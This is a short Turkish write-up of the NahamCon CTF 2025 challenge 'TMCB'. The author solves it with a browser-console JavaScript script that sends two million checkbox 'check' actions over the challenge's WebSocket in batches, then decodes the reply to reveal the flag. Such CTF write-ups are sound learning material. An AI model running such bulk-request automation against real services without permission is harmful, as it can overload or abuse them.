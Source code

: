 ## NahamCon CTF 2025 -TMCB Writeup

## Soru:
![alt text](image-4.png)

## Çözüm:
Soruyu başlattığımda gelen bağıntıya gittim ve gerçekten de karşıma 2 milyon kutucuk çıktı...

![alt text](image-5.png)

Tahminimce bu 2 milyon kutuyu işaretlediğimde flag çıkacaktı. Bunun için tarayıcı konsolunda aşağıdaki kodu çalıştırdım. Bu kod 500 ms de bir 50.000 kutucuk işaretleyecekti.

```JavaSCript
(async () => {
    const TOTAL = 2_000_000;
    const BATCH_SIZE = 50_000; // Daha küçük batch
    const DELAY_MS = 500; // Daha uzun bekleme

    const ws = new WebSocket("ws://" + location.host + "/ws");

    ws.onopen = async () => {
        console.log("✅ WebSocket bağlantısı kuruldu, kutucuklar gönderiliyor...");
        for (let i = 0; i < TOTAL; i += BATCH_SIZE) {
            const batch = Array.from({ length: BATCH_SIZE }, (_, j) => i + j);
            ws.send(JSON.stringify({
                action: "check",
                numbers: batch
            }));
            console.log(`📦 Gönderilen batch: ${i} - ${Math.min(i + BATCH_SIZE - 1, TOTAL - 1)}`);
            await new Promise(r => setTimeout(r, DELAY_MS));
        }
        console.log("🎯 Tüm kutucuklar gönderildi. Flag bekleniyor...");
    };

    ws.onmessage = function(event) {
        const data = JSON.parse(event.data);
        if (data.checked) {
            try {
                const decoded = atob(data.checked);
                const compressed = new Uint8Array(decoded.length);
                for (let i = 0; i < decoded.length; i++) {
                    compressed[i] = decoded.charCodeAt(i);
                }
                const decompressed = pako.inflate(compressed, { to: 'string' });
                const checkboxList = JSON.parse(decompressed);

                const checkedCount = checkboxList.length;
                document.getElementById("checked-count").textContent = checkedCount.toLocaleString();

                if (checkedCount === TOTAL && window.SERVER_FLAG && window.SERVER_FLAG !== "None") {
                    document.getElementById("flag").textContent = window.SERVER_FLAG;
                    document.getElementById("flag-container").style.display = "block";

                    if (typeof confetti === "function") {
                        confetti({ particleCount: 100, spread: 70, origin: { y: 0.6 } });
                    }

                    console.log("🚩 FLAG:", window.SERVER_FLAG);
                }
            } catch (err) {
                console.error("❌ Veri işlenemedi:", err);
            }
        }
    };

    ws.onclose = () => {
        console.warn("🔌 WebSocket bağlantısı kapandı.");
    };
})();
```

Vee BİNGO!!
### FLAG!🦊

![alt text](image-7.png)


